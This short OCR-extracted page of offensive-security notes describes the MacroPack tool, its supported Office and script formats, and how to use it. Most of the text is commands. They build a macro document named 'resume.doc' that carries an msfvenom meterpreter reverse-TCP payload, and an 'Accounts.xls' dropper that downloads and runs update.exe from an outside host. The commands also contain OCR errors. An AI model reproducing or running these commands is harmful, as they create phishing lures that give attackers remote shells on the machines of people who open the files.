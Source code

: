 ## Supported Formats

- Scripting formats:
• VBA text file (.vba)
• VBS text file (.vos)
• Windows Script File (.wsf)
• HTML Applications (.hta)
- MS Office Supported formats:
• MS Word (.doc, docm, docx, .dotm)
• MS Excel (.xls, xlsm, xlsx, .xltm)
• MS PowerPoint (.pptm, potm)
• MS Access (.accdb, mdb)

## MacroPack GitHub Repo: 
```
https://github.com/sevagas/macro_pack
```
- Usage
```
echo "calc.exe" | .\macro_pack.exe -t CMD -o -G output.doc
```
## Normal Reverse shell
```
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=10.100.11.15 | .\macro_pack.exe -o -G "resume.doc"
```

## Reverse Shelll with Dropper
```
echo "http://10.100.11.15/update.exe" "update.exe" | . \macro_pack -t DROPPER -0 -G "Accounts.xls"
```
